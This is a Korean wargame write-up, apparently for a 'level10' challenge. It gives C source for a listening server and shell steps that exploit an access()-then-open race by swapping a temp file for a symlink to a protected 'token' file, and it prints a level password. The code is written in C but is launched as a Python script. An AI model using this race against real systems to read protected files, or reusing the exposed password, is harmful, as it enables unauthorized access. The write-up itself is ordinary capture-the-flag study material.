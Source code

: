 password: s5cAJpM8ev6XHw998pRWG728z

# 접근 방법

access()를 통해서 파일의 실제 권한을 확인한 뒤에 나중에 그 파일의 내용을 서버로 보내는 프로그램인데

access()체크 뒤에 파일을 바꾸는 공격에 취약하다는 점을 이용함.

서버 소스
```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <netdb.h>
#include <sys/socket.h>
#include <sys/select.h>
#include <netinet/in.h>
​
int main(int ac, char **av)
{
  struct sockaddr_in servaddr;
  uint16_t port = 6969;
  bzero(&servaddr, sizeof(servaddr));
  servaddr.sin_family = AF_INET;
	servaddr.sin_addr.s_addr = INADDR_ANY;
	servaddr.sin_port = htons(port);
​
  int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
  bind(sock_fd, (const struct sockaddr *)&servaddr, sizeof(servaddr));
  listen(sock_fd, 0);
​
  printf("waiting...\n");
  getchar();
​
  struct sockaddr_in clientaddr;
  socklen_t len = sizeof(clientaddr);
  int client_fd = accept(sock_fd, (struct sockaddr *)&clientaddr, &len);
​
  char buf[4096];
  while (1)
  {
    int r = read(client_fd, buf, sizeof(buf));
    if (r <= 0)
      break;
    write(1, buf, r);
  }
  return (0);
}
```

1) /tmp 폴더에 적당한 파일을 생성
2) 서버 실행
3) level10프로그램 실행
4) 방금 생성한 파일과 같은 이름으로 token에 대한 소프트 링크 생성
5) 서버 실행 재개

```shell
> touch /tmp/test
> python /tmp/server.py
> ~/level10 /tmp/test localhost
> ln -s ~/token /tmp/test
> PRESS ANY KEY
```